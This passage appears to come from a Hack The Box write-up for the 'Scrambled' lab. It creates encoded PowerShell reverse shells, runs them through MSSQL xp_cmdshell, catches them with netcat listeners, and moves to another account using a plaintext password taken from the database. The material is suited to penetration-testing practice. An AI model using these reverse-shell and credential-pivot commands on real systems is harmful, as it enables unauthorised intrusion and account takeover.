 ```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# python3 mkpsrevshell.py 10.10.14.198 1337
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8<SNIP>
```

Start netcat listening then switch to the mssql session and paste this in with xp_cmdshell:

```sh
SQL> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHM<SNIP>
```

## Shell As SQLSVC

Switch back to Kali to see we're connected:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.168] 56490
whoami
scrm\sqlsvc
PS C:\Windows\system32> 
```

We are only a low level service account, but we have credentials for another user from the MSSQL database. Let's start another shell and switch to that user.

First start another netcat listening in a different terminal:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# nc -nlvp 1338
listening on [any] 1338 ...
```

Use the Python sctipt to create another base64 Powershell reverse shell, this time I've used port 1338 instead of 1337 which is still in use:

```sh
──(root㉿kali)-[~/htb/scrambled]
└─# python3 ps_revshell.py 10.10.14.198 1338                           
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU<SNIP>
```

## Shell As MiscSvc

Switch to our current shell on the box and create a PS object with the new users credentials:

```powershell
PS C:\Windows\system32> $MiscSvcPassword = ConvertTo-SecureString 'ScrambledEggs9900' -AsPlainText -Force
PS C:\Windows\system32> $Cred = New-Object System.Management.Automation.PSCredential('Scrm\MiscSvc', $MiscSvcPassword)
PS C:\Windows\system32> Invoke-Command -Computer dc1 -ScriptBlock { powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE<SNIP>EMAbABvAHMAZQAoACkA } -Credential $Cred
```
